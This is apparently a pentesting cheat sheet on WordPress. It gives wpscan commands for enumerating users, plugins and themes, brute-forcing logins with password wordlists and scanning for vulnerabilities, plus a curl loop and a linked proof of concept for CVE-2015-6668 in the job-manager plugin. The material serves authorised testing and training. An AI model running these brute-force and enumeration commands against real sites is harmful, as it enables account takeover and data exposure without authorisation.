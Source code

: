```yaml
---
icon: wordpress
---
```


# Wordpress

{% hint style="info" %}
### <mark style="color:purple;">Installation</mark>

```sh
gem install wpscan
```
{% endhint %}

***

{% hint style="info" %}
### <mark style="color:purple;">Enumeration</mark>

{% code title="Basic Scan" %}
```bash
wpscan --url https://example.com
```
{% endcode %}

{% code title="Users" %}
```sh
wpscan --url https://example.com --enumerate u
```
{% endcode %}

{% code title="Plugins" %}
```sh
wpscan --url https://example.com --enumerate ap
```
{% endcode %}

{% code title="Themes" %}
```sh
wpscan --url https://example.com --enumerate at
```
{% endcode %}

***

### <mark style="color:purple;">Brute-Forcing</mark>

{% code title="With username" overflow="wrap" %}
```sh
wpscan --url https://example.com --passwords passwords.txt --usernames admin
```
{% endcode %}

{% code title="With users wordlist" overflow="wrap" %}
```sh
wpscan --url https://example.com --passwords passwords.txt --usernames users.txt
```
{% endcode %}

{% code title="With a custom wordlist" %}
```sh
wpscan --url https://example.com --passwords custom.txt
```
{% endcode %}

***

### <mark style="color:purple;">Vulnerability Scanner</mark>

{% code title="Full Scan" %}
```sh
wpscan --url https://example.com --enumerate vp,vt,vt
```
{% endcode %}

{% code title="Plugins" %}
```sh
wpscan --url https://example.com --enumerate vp
```
{% endcode %}

{% code title="Themes" %}
```sh
wpscan --url https://example.com --enumerate vt
```
{% endcode %}

{% code title="Timthumbs" %}
```sh
wpscan --url https://example.com --enumerate tt
```
{% endcode %}

{% code title="Uses WPVulnDB" overflow="wrap" %}
```sh
wpscan --url https://example.com --enumerate vp,vt,vt --api-token YOUR_API_TOKEN
```
{% endcode %}

***

### <mark style="color:purple;">Other</mark>

{% code title="With output" %}
```sh
wpscan --url https://example.com --output example.json
```
{% endcode %}

{% code title="Custom User-Agent" overflow="wrap" %}
```sh
wpscan --url https://example.com --user-agent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.3"
```
{% endcode %}
{% endhint %}

***

{% hint style="danger" %}
### <mark style="color:purple;">Vulnerabilities</mark>

<mark style="color:orange;">**`CVE-2015-6668`**</mark>

* <mark style="color:purple;">There is a path traversal in the</mark> <mark style="color:orange;">**`job-manager`**</mark> <mark style="color:purple;">plugin version</mark> <mark style="color:orange;">**`0.7.25`**</mark>
* <mark style="color:purple;">By browsing to</mark> <mark style="color:orange;">**`IP/index.php/jobs/apply/8/`**</mark> <mark style="color:purple;">and modifying the number in the URL, it is possible to find the names of existing applications.</mark>

{% code title="Enumerate with curl" overflow="wrap" %}
```sh
for i in $(seq 1 25); do echo -n "$i: "; curl -s http://10.10.10.10/index.php/jobs/apply/$i/ | grep 'entry-title' | cut -d'>' -f2 | cut -d'<' -f1; done
```
{% endcode %}

* <mark style="color:purple;">Use this</mark> [<mark style="color:orange;">**`POC`**</mark>](https://github.com/jimdiroffii/CVE-2015-6668/blob/main/exploit.py) <mark style="color:purple;">to look for files associated to an application.</mark>
{% endhint %}
